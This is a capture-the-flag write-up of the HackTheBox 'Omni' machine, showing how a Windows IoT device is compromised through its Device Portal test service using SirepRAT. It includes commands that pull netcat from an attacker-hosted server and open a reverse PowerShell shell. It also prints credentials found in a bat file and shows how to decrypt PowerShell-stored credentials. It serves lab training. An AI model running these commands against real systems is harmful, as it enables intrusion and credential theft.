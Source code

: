 ```yaml
---
title: HackTheBox Omni
date: 2021-01-10
categories: [HackTheBox]
thumbnail: /assets/img/htb/omni/info.png
excerpt: I would classify this as a medium box that uses Windows Device portal.
tags: [AutoRecon, Windows IoT, Windows Device Portal, SirepRAT, Powershell encryption]
---
```


> We started of by enumerating the box with AutoRecon found that it was running Windows Device Portal which had a vulnerability that we could exploit using SirepRAT. From there, we got netcat onto the box using SirepRAT and got a reverse shell as omni user. We enumerated through the file system and found a bat file which contained credentials.

-------

## Enumeration

Recently, I have been using AutoRecon which was created by [Tib3rius](https://github.com/Tib3rius/AutoRecon).

### Nmap

I ran `sudo autorecon $IP` so that we can run with a UDP scan as well.

__AutoRecon quick TCP scan__

`nmap -vv --reason -Pn -sV -sC --version-all -oN /htb/omni/results/10.10.10.204/scans/_quick_tcp_nmap.txt -oX /htb/omni/results/10.10.10.204/scans/xml/_quick_tcp_nmap.xml 10.10.10.204`

```
[SNIP]
PORT     STATE SERVICE REASON          VERSION
135/tcp  open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
8080/tcp open  upnp    syn-ack ttl 127 Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[SNIP]
```

### Website

When navigating to the website on `port 8080`, we got greeted with an authentication popup. Using basic default credentials yielded nothing.

![devicelogin](/assets/img/htb/omni/devicelogin.png)

Moved on to figuring out what Windows Device Portal was:

Googling [Windows Device Portal](https://docs.microsoft.com/en-us/windows/uwp/debug-test-perf/device-portal):

> The Windows Device Portal (WDP) is a web server included with Windows devices that lets you configure and manage the settings for the device over a network or USB connection (local connections are also supported on devices with a web browser).

After some more googling, we found a vulnerablility pertaining to Windows Device Portal [here](https://github.com/SafeBreach-Labs/SirepRAT)

> The method is exploiting the Sirep Test Service that’s built in and running on the official images offered at Microsoft’s site. This service is the client part of the HLK setup one may build in order to perform driver/hardware tests on the IoT device. It serves the Sirep/WPCon/TShell protocol.

We need our own Netcat binary which can be downloaded [here](https://eternallybored.org/misc/netcat/)

We'll have to start our python server:

```
Python2: python -m SimpleHTTPServer

Python3: python3 -m http.server
```

Then issue the following command to get netcat onto the box:

```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Users\\Public\\nc64.exe -Uri http://$LHOST:$PORT/nc64.exe" --v
```

![sireprat](/assets/img/htb/omni/sireprat.png)

Once this command completed successfully, you'll have to invoke using the following:

```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Users\\Public\\nc64.exe $LHOST $LPORT -e powershell.exe" --v
```

Make sure you setup your netcat listener to capture it.

![netcat](/assets/img/htb/omni/netcat.png)

We are unable to read the `user.txt` file at this point so further enumeration is needed.

After gallivanting around the file system, I came across a hidden `BAT` file, which contained credentials.

![hidden](/assets/img/htb/omni/hidden.png)

__r.bat__

```
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

Using the first credentials as `app`, we were able to login to the portal.

![app](/assets/img/htb/omni/app.png)

Under `Processes` then `Run command`, we are able to execute commands.

We can use this to make a call to our netcat.

![appcommand](/assets/img/htb/omni/appcommand.png)

![appnetcat](/assets/img/htb/omni/appnetcat.png)

The `user.txt` file seems to be encrypted:

![usertxt](/assets/img/htb/omni/userencrypt.png)

There is an excellent article detailing how to retrieve the password [here](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx)

```
$credential = Import-CliXml -Path "path\to\file"

then

$credential.GetNetworkCredential().Password
```

![appcred](/assets/img/htb/omni/appcred.png)

Now how do we get Admin, if you remember from the `r.bat` file we already have administrator credentials. All we have to do is sign in as administrator and repeat how we got `app` shell.

You may find that there is no logout button available, a work around is to open a private window through firefox or what ever browser you happen to be using.

![rootcommand](/assets/img/htb/omni/rootcommand.png)

![rootnetcat](/assets/img/htb/omni/rootnetcat.png)

Again, we'll just do the same thing to retrieve the root flag.

![rootcred](/assets/img/htb/omni/rootcred.png)
